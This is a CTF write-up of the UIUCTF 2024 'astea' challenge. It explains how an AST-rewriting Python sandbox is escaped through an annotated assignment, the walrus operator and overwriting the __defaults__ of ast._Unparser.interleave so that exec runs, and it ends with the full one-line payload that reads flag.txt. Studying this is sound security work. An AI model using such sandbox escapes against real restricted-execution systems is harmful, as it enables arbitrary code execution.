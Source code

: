 ```yaml
---
author: "nothoudaifa"
title: "astea chall writeup from uiuctf 2024"
date: "2024-06-25"
tags: 
- ctf 
- misc 
---
```


## Understanding the code:

We are given this python file

```python
import ast

def safe_import():
  print("Why do you need imports to make tea?")

def safe_call():
  print("Why do you need function calls to make tea?")

class CoolDownTea(ast.NodeTransformer):
  def visit_Call(self, node: ast.Call) -> ast.AST:
    return ast.Call(func=ast.Name(id='safe_call', ctx=ast.Load()), args=[], keywords=[])
  
  def visit_Import(self, node: ast.AST) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_ImportFrom(self, node: ast.ImportFrom) -> ast.AST:
    return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))
  
  def visit_Assign(self, node: ast.Assign) -> ast.AST:
    return ast.Assign(targets=node.targets, value=ast.Constant(value=0))
  
  def visit_BinOp(self, node: ast.BinOp) -> ast.AST:
    return ast.BinOp(left=ast.Constant(0), op=node.op, right=ast.Constant(0))
  
code = input('Nothing is quite like a cup of tea in the morning: ').splitlines()[0]

cup = ast.parse(code)
cup = CoolDownTea().visit(cup)
ast.fix_missing_locations(cup)

exec(compile(cup, '', 'exec'), {'__builtins__': {}}, {'safe_import': safe_import, 'safe_call': safe_call})
```

> i used chatgpt to understand most of this.
> 

this python file takes your code and parse’s it using the ast python module.

> check the [docs](https://docs.python.org/3/library/ast.html) for the ast module.
> 

after parsing it, it runs it through CoolDownTea().visit function. the CoolDownTea class inherits from ast.NodeTransformer, what this does is go through the generated ast and change the nodes in it based on the defined functions in the CoolDownTea Class.

the CoolDownTea class does 4 things:

- it turns any function call it sees into a call of the safe_call function.
- it turns any import syntax (import module, from module import a) into a call to safe_import function.
- it turns any assignment (specificaly ast.Assign nodes in the ast, this will be important later) into a zero assignment eg: a=2 will become a = 0.
- it turns any binary operation into the binary operation on two zeros so 1+1 would become 0+0.

after that, it compiles and executes the code using exec it sets __builtins__ to {} and sets two functions safe_call and safe_import.

## Exploration:

Looking at this from afar it seems impossible to do anything since we don’t have any builtin function and even if we did we can’t call because it will be changed to safe_call call.

> or is it?
> 

in python, functions have their own __builtins__ which basically includes all the builtin functions we know and love so we can use that.

> now what?
we still can’t call any functions.
> 

remember that we are using python, if we can assign the safe_call function to a builtin function from it’s builtins we are technically calling that function by calling safe_call. something like this:

```python
safe_call = safe_call.__builtins__['print']
```

the problem in here that this assignment will become (because of the NodeTransformer):

```python
safe_call = 0
```

> is there another way to an assignment in python.
> 

it turns out there is.
after taking a look at all the nodes in the ast module [docs](https://docs.python.org/3/library/ast.html), it turns out there are four types of assignments:

- ast.Assign: the normal assignment we know
- ast.AugAssign: augmented assignment eg: x+= 2, a |= 1.
- ast.AnnAssign: just the normal assignment with a type annontiation.
- ast.NamedExpr: this is the walrus operator (this assignment does have some constraints).

and as it turns out, the CoolDownTea class only checks for normal assignments, which means we can use annontiated assignments to our heats content.

> Cool
Now we can get the flag right?
> 

In this case we can directly edit license._Printer__filenames and make it point to flag.txt then call license functions.
but obviously i didn’t do that (i didn't know about it then).

what i thought after reaching this is that i can call any builtin function but with no arguments.
so is there anything in the python builtins that can help me.

> None, or at least i have not found anything
> 

until i discovered something, when u define a function with default arguments:

```python
def func(name='cool', age=2):
	pass
```

this is actually reflected in one of the function propreties, specifically __defaults__ , it would look like this for func:

```python
func.__defaults__ == ('cool', 2)
```

> cool
now we just gotta edit exec’s __defaults__ with our payload and we win.
> 

builtin functions in python does not have the __defaults__ field.

but that’s not a problem, if there is a function that is user made and it uses it’s arguments to call any builtin function we can use that, the builtin function does not matter since we can change it using:

```python
func.__builtins__['ord'] = func.__builtins__['exec']
```

> safe_call and safe_import do not match
we can also access the global scope using safe_call.__globals__ but none of the functions satisfy the requirements.
> 

until i noticed the fact the the global scope also contains the imported ast module, and it turns out all the functions in it have the __defaults__ attribute.
so i checked the [source code](https://github.com/python/cpython/blob/main/Lib/ast.py) for the ast module.

> so is there any function in there?
> 

Yes. after 2 mins of searching i found it.

the “_Unparser.interleave” function:

```python
class _Unparser:
		def interleave(self, inter, f, seq):
		    """Call f on each item in seq, calling inter() in between."""
		    seq = iter(seq)
		    try:
		        f(next(seq))
		    except StopIteration:
		        pass
		    else:
		        for x in seq:
		            inter()
		            f(x)
```

as u can see from the description of the function it’s just perfect.

## Exploit crafting:

- first, we gotta edit the __defaults__ of the interleave function, what we care about is f (function to be called), and seq (args for that function).
    
    we set it to call exec on “print(open(’flag.txt’).read())”
    

```python
safe_call.__globals__['ast']._Unparser.interleave.__defaults__: safe_call.__builtins__['tuple'] =  (None, None, safe_call.__builtins__['exec'], ['print(open("flag.txt").read())']) ;
```

- second, we assign the safe_call function to interleave function.

```python
(safe_call:= safe_call.__globals__['ast']._Unparser.interleave)
```

- finally, we call the safe_call function

```python
safe_call()
```

our final exploit will be:

```python
safe_call.__globals__['ast']._Unparser.interleave.__defaults__: safe_call.__builtins__['tuple'] =  (None, None, safe_call.__builtins__['exec'], ['print(open("flag.txt").read())']) ; (safe_call:= safe_call.__globals__['ast']._Unparser.interleave) ; safe_call()
```

FLAG: uiuctf{maybe_we_shouldnt_sandbox_python_2691d6c1}
